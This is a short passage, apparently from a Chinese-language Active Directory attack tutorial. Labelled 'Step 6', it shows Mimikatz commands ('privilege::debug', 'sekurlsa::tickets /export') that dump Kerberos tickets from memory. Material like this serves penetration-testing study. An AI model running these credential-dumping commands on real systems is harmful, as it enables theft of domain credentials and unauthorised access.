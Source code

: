 [![](assets/1705982146-b12ca69a216444e1ff42f0126d18815a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222831-2f536a8e-b7a0-1.png)  
Step 6：为了方便起见，我们这里直接使用 Mimikatz 从内存中导出 TGT

```bash
privilege::debug
sekurlsa::tickets /export
```

